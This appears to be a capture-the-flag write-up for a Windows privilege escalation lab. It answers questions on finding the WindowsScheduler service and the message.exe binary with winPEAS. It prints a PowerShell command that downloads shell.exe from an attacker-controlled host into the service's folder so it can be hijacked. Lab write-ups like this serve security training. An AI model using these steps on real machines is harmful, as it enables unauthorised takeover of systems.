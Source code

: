 We will download winpeas.bat from https://github.com/carlospolop/PEASS-ng/releases/tag/20231112-0a42c550

- Upload winPEAS.bat to shell
- Go into shell
- run `winPEAS.bat serviceinfo`

<p align="center"> <img src="https://i.imgur.com/n8meD5n.png" height="90%" width="90%" alt=""/>

Question 2: What is the name of the abnormal service running?

`WindowsScheduler`

#

# Question 3

We first change the directory to `\Program Files (x86)` and see what it contains.

<p align="center"> <img src="https://i.imgur.com/PbJ1xLK.png" height="90%" width="90%" alt=""/>

Change the directory into `SystemScheduler` and see what it contains.

<p align="center"> <img src="https://i.imgur.com/ScOfdkT.png" height="90%" width="90%" alt=""/>

Change the directory into `Events` and see what it contains.

<p align="center"> <img src="https://i.imgur.com/SMcIqkk.png" height="90%" width="90%" alt=""/>

Look into the log file "20198415519.INI_LOG.txt" using the `type` command.

<p align="center"> <img src="https://i.imgur.com/7j6EU3K.png" height="90%" width="90%" alt=""/>

Question 3: What is the name of the binary you're supposed to exploit? 

`message.exe`

#

# Question 4

Redo to put Shell.exe into the target machine's `c:\Program Files (x86)\SystemScheduler`

- Stop the `python3 -m http.server`
- Redo: `python3 -m http.server 1111`
- In Shell: change cd into `c:\Program Files (x86)\SystemScheduler`
- Redo: `powershell -c "Invoke-WebRequest -Uri 'http://10.6.106.187:1111/shell.exe' -OutFile 'c:\Program Files (x86)\SystemScheduler\shell.exe'"`

<p align="center"> <img src="https://i.imgur.com/fMfyzV0.png" height="90%" width="90%" alt=""/>

Successfully put shell.exe into `c:\Program Files (x86)\SystemSchedule`

<p align="center"> <img src="https://i.imgur.com/NnffIW3.png" height="90%" width="90%" alt=""/>
